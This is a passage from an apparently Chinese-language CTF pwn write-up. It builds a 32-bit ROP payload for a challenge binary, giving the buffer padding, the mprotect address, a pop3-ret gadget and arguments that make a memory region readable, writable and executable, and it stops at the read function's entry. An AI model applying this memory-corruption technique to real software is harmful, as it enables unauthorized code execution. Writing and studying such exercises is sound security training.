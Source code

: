 ```
0x0806CDD0
```

又因为你要传参嘛，传进去修改的地址，长度，权限，所以你要找到pop三个，ret一个的地址：

![image-20241102111349757](../_media/image-20241102111349757.png)

再看上面的函数，使用的就是eax，ebx，ebx等寄存器



plt表开始地址如下：

![image-20241102110826491](../_media/image-20241102110826491.png)

很显然ida里面看到不可执行的

```
0x080DA000
```





所以到这里可以先构造一部分的payload了

```python
mportect_addr = 0x0806cdd0
pop3_ret1_adr = 0x08056194
plt_start_adr = 0x080DA000
payload = b'a' * (0x12 + 0x04)
payload += p32(mportect_addr) 
payload += p32(pop3_ret1_adr) 
payload += p32(plt_start_adr) 
payload += p32(0x1000) 
payload += p32(0x7) 
```



read函数入口

![image-20241102110615117](../_media/image-20241102110615117.png)
